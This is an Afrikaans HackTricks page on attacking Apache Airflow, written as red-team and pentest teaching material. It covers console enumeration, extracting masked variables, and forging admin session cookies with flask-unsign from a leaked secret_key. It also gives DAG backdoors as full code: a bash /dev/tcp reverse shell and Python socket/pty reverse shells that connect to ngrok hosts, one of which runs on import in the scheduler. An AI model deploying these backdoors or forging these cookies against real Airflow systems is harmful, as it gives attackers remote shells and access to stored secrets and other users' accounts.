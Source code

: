 # Apache Airflow Sekuriteit

<details>

<summary><strong>Leer AWS hakwerk vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** my op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PRs in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Basiese Inligting

[**Apache Airflow**](https://airflow.apache.org) dien as 'n platform vir **die orkestrering en skedulering van data pyplyne of werkstrome**. Die term "orkestrering" in die konteks van data pyplyne dui op die proses van die reël, koördinering en bestuur van komplekse data werkstrome wat afkomstig is van verskeie bronne. Die primêre doel van hierdie georkestreerde data pyplyne is om verwerkte en verbruikbare datastelle te voorsien. Hierdie datastelle word wyd gebruik deur 'n verskeidenheid van toepassings, insluitend maar nie beperk tot besigheidsintelligensie gereedskap, data wetenskap en masjienleermodelle, wat almal fundamenteel is vir die werking van groot data toepassings.

Basies sal Apache Airflow jou toelaat om **die uitvoering van kode te skeduleer wanneer iets** (gebeurtenis, cron) **gebeur**.

## Plaaslike Laboratorium

### Docker-Compose

Jy kan die **docker-compose konfigurasie lêer van** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) gebruik om 'n volledige Apache Airflow docker-omgewing te begin. (As jy op MacOS is, maak seker om ten minste 6GB RAM aan die docker VM te gee).

### Minikube

Een maklike manier om **Apache Airflow te hardloop** is om dit **met minikube te hardloop**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
## Airflow Konfigurasie

Airflow kan **sensitiewe inligting** in sy konfigurasie stoor of swak konfigurasies kan gevind word:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

## Airflow RBAC

Voordat jy Airflow aanval, moet jy verstaan **hoe toestemmings werk**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

## Aanvalle

### Webkonsol Enumerasie

As jy **toegang tot die webkonsol** het, kan jy moontlik toegang hê tot een of al die volgende inligting:

* **Veranderlikes** (Aangepaste sensitiewe inligting kan hier gestoor word)
* **Verbindings** (Aangepaste sensitiewe inligting kan hier gestoor word)
* Toegang tot hulle in `http://<airflow>/connection/list/`
* [**Konfigurasie**](./#airflow-configuration) (Sensitiewe inligting soos die **`secret_key`** en wagwoorde kan hier gestoor word)
* Lys **gebruikers & rolle**
* **Kode van elke DAG** (wat interessante inligting kan bevat)

### Haal Veranderlike Waardes op

Veranderlikes kan in Airflow gestoor word sodat die **DAGs** hul waardes kan **bereik**. Dit is soortgelyk aan geheime van ander platforms. As jy **genoeg toestemmings** het, kan jy hulle in die GUI bereik by `http://<airflow>/variable/list/`.\
Airflow sal standaard die waarde van die veranderlike in die GUI wys, maar volgens [**hierdie**](https://marclamberti.com/blog/variables-with-apache-airflow/) is dit moontlik om 'n **lys van veranderlikes** in te stel waarvan die **waarde** as **asteriskte** in die **GUI** sal verskyn.

![](<../../.gitbook/assets/image (164).png>)

Nietemin kan hierdie **waardes** steeds **opgehaal** word via **CLI** (jy moet DB-toegang hê), **arbitrêre DAG**-uitvoering, **API** wat die veranderlikes-eindpunt benader (die API moet geaktiveer wees), en **selfs die GUI self!**\
Om toegang tot daardie waardes vanuit die GUI te verkry, **kies die veranderlikes** wat jy wil bereik en **klik op Handelinge -> Uitvoer**.\
'n Ander manier is om 'n **bruteforce** uit te voer vir die **verborge waarde** deur die **soekfiltering** te gebruik totdat jy dit kry:

![](<../../.gitbook/assets/image (152).png>)

### Voorreg-Opgradering

As die **`expose_config`**-konfigurasie op **Waar** ingestel is, kan vanaf die **rol Gebruiker** en **daarbo** die **konfig in die web** **gelees** word. In hierdie konfigurasie verskyn die **`secret_key`**, wat beteken enige gebruiker met hierdie geldige sleutel kan **sy eie ondertekende koekie skep om enige ander gebruikersrekening te simuleer**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
### DAG Agterdeur (RCE in Airflow werker)

Indien jy **skryftoegang** het tot die plek waar die **DAGs gestoor word**, kan jy net **een skep** wat vir jou 'n **omgekeerde skaal** sal stuur.\
Let wel dat hierdie omgekeerde skaal binne 'n **airflow werker houer** uitgevoer sal word:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
### DAG Agterdeur (RCE in Airflow-skeduleerder)

Indien jy iets instel om **uitgevoer te word in die hoof van die kode**, sal dit op die oomblik van hierdie skrywe **uitgevoer word deur die skeduleerder** na 'n paar sekondes nadat dit binne die DAG se vouer geplaas is.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
### DAG Skepping

Indien jy daarin slaag om **'n masjien binne die DAG-kluster te kompromiteer**, kan jy nuwe **DAG-skripte** in die `dags/`-vouer skep en hulle sal **gerepliseer word in die res van die masjiene** binne die DAG-kluster.

### DAG Kode-inspuiting

Wanneer jy 'n DAG vanaf die GUI uitvoer, kan jy **argumente daaraan deurgee**.\
Daarom, as die DAG nie behoorlik gekodeer is nie, kan dit **kwesbaar wees vir Bevel-inspuiting.**\
Dit is wat in hierdie CVE gebeur het: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Al wat jy moet weet om te **begin soek na bevel-inspuitings in DAGs** is dat **parameters** **toegang vind** met die kode **`dag_run.conf.get("param_name")`**.

Verder kan dieselfde kwesbaarheid voorkom met **veranderlikes** (let daarop dat met genoeg regte jy die waarde van die veranderlikes in die GUI kan **beheer**). Veranderlikes word **toegang met**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Indien hulle byvoorbeeld binne 'n bash-opdrag gebruik word, kan jy 'n opdraginspuiting uitvoer.

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS-familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFT's**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** my op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
